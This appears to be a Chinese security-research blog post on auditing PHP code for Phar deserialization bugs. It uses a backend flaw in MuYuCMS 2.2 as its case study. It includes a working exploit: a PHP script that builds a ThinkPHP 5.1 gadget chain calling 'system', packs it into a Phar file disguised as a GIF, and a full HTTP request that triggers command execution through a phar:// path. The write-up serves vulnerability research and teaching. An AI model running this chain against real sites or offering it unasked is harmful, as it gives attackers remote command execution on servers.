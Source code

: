 【PHP代码审计】站点中的Phar反序列化漏洞
=======================

前言
--

PHP反序列化漏洞，如果按照反序列化入口区分，可以分为三类：

- 调用Unserialize函数进行反序列化
- 利用Session处理中进行的反序列化操作
- 通过Phar伪协议进行反序列化

Unserialize函数的使用很少见，而Session反序列化可控条件又比较苛刻。这次就和大家分享最后一种Phar伪协议反序列化漏洞案例作为学习，祝师傅们以后审计时多多出洞。

了解Phar
------

可以认为Phar是PHP的压缩文档。从`PHP 5.3`开始，引入了类似于JAR的一种打包文件机制。它可以把多个文件存放至同一个文件中，无需解压，PHP就可以进行访问并执行内部语句。  
关于Phar文件结构等其他前置知识就不重点展开，感兴趣的师傅可以参考文章：\[phar反序列化学习笔记\](<https://pankas.top/2022/04/28/> phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

反序列化触发方式
--------

Phar之所以能触发反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`。而PHP在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。因此，可以代替`unserialize`函数作为反序列化漏洞的入口。  
常见的可以触发Phar反序列化的PHP文件系统函数如下：  
![image.png](https://shs3.b.qianxin.com/butian_public/f8601794320f43bc371127be731da0b5c7136b830ce83.jpg)  
当PHP文件系统函数中的传递文件地址的参数可控时，构造合适的利用链，就能无需`unserialize`函数，进行反序列化命令执行。

生成Phar文件的tips
-------------

PHP在识别Phar文件时，是通过其文件头部标识`__HALT_COMPILER();?>`，并且对头部标识前面的内容或后缀名没有严格要求的。  
因此可以通过添加任意的文件头并修改Phar文件后缀名的方式，将Phar文件伪装成其他格式的文件，从而绕过上传点限制。

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

案例漏洞分析
------

在[MuYuCMS2.2](https://github.com/MuYuCMS/MuYuCMS)中存在后台的Phar反序列化漏洞

### 寻找触发点

**Phar反序列化触发点寻找目标：**找到一个参数可控的受影响的文件系统函数。  
以`is_dir`函数为例，其他受影响的文件系统函数原理相同，就不一一列举。  
使用全局文件搜索功能搜索`is_dir`函数，最终在Template.php中发现疑似存在参数可控的情况。  
![image.png](https://shs3.b.qianxin.com/butian_public/f888704b93fb7f145644fed0458bea3bd71e8ecffd370.jpg)  
搜索关键字`cutformadd`寻找方法的触发位置，找到html模板中存在`admin/Template/cutformadd`的路径。  
![image.png](https://shs3.b.qianxin.com/butian_public/f256894424ba3bbf95482e7c6773f797ccbd94da319e4.jpg)  
因此，猜测Template.php功能就是调用模板html并在浏览器访问时渲染出来。看了一下该模板html内容，发现是在`管理自定义页面`的功能中。火速登录后台找到该位置，提交数据并抓包验证。  
![image.png](https://shs3.b.qianxin.com/butian_public/f367198a1c79473e39fffe142b75d4c3a4b15c082ca2a.jpg)  
成功触发该方法，并且可以看到path确实可控无过滤。  
![image.png](https://shs3.b.qianxin.com/butian_public/f888356a0a3ea33c38261a1d1d438b2e5dc7d5e4830cc.jpg)  
可是光有反序列化触发点还是无法证明存在反序列化漏洞，还需要配合利用链才完整。奈何实力不允许，无法手搓链子，只能找找现成的。

### 寻找利用链

[MuYuCMS源码](https://github.com/MuYuCMS/MuYuCMS)中描述：MuYuCMS基于ThinkPHP5.1开发的一套轻量级开源内容管理系统。  
![image.png](https://shs3.b.qianxin.com/butian_public/f990540cc9522fb94985102bb4ceeb68d5010880793da.jpg)  
社区中正好看到有关于这个版本链子分析：[ThinkPHP5.1反序列化漏洞实现rce](https://forum.butian.net/share/2307)  
阅读后，收获蛮多，感兴趣的师傅可以研读一下。  
这里就只用站在巨人的肩膀上，小小改动一下文章中的exp。在链子中加入一个主命名空间，并在其中添加生成Phar文件的代码，`TestObject`需要替换成链子中的入口类`Windows`

```php
<?php
namespace think{
    abstract class Model{
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["l1_Tuer"=>["123"]];
            $this->data = ["l1_Tuer"=>new Request()];
        }
    }

    class Request{
        protected $hook = [];
        protected $filter = "system";
        protected $config = [
            'var_ajax'         => '_ajax',  
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = ["var_ajax"=>''];
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
}

namespace think\process\pipes{
    use think\model\concern\Conversion;
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct(){
            $this->files=[new Pivot()];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    use think\process\pipes\Windows;
    $phar = new Phar("shell.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new Windows();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo (base64_encode(serialize(new Windows())));
}
?>
```

引用文章中的分析：`$this->$config = ['var_ajax'=>'',];`如果设置为空，那我们get传入的变量名可以为任意值。但是定义了之后，get传入的变量名就只能是我们定义的变量名。比如使用`$this->$config = ['var_ajax'=>'cmd',];`，则get需要传递`cmd=xxxx`。

在生成Phar文件前需要**将php.ini中的 phar.readonly选项设置为Off**，否则无法生成phar文件。  
![image.png](https://shs3.b.qianxin.com/butian_public/f334743393c3608eed09eec8241fa4130ce2d413450d4.jpg)  
配置好php.ini后，在cmd中用命令执行上面的poc.php就行了。

> php.exe poc.php

![image.png](https://shs3.b.qianxin.com/butian_public/f752419f9453b4043348ba2f851c5d8db3ed537a334ad.jpg)  
修改文件后缀名  
![image.png](https://shs3.b.qianxin.com/butian_public/f912881bf82c5ee643483f48f04c7aacc838a8757644c.jpg)

### 触发反序列化漏洞

登录后台，找任意的图片上传点，上传图片，记录返回的文件路径（后台中提供的文件上传位置很多，这里仅举例其中之一）。  
![image.png](https://shs3.b.qianxin.com/butian_public/f118602af0194e94f5b1e6b01755c20c7fa98ab2442b2.jpg)  
构造漏洞数据包，给path参数赋值为上传的Phar文件的相对路径，添加Phar伪协议头。`path=phar://./public/upload/images/65564c2937556.jpg` ，使用get传递`cmd=xxxx`。  
![image.png](https://shs3.b.qianxin.com/butian_public/f92494103ebab5c93ebd9b1f7bcc1c49f5029da31798c.jpg)

poc:

```php
POST /admin.php/template/cutformadd?cmd=type%20c:\\windows\win.ini HTTP/1.1
Host: my.localhost:83
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=c570jgocjo468i6pvk3ivgicm2; first=1700160858
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 160

finame=%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E6%B5%8B%E8%AF%95&fielname=gywm.html&path=phar://./public/upload/images/65564c2937556.jpg&content=666
```

总结
--

分享完毕，师傅们在白盒挖掘漏洞时，如果遇到实在无法绕过的受限上传点，不妨试试换个思路挖掘Phar反序列化漏洞。  
受影响的文件系统函数一般还是很容易找到的，存在的难点可能就是找到合适的利用链。当站点使用的常见框架，可以试试公开的利用链；对于未使用框架的站点，实力允许的师傅可以手搓链子来利用。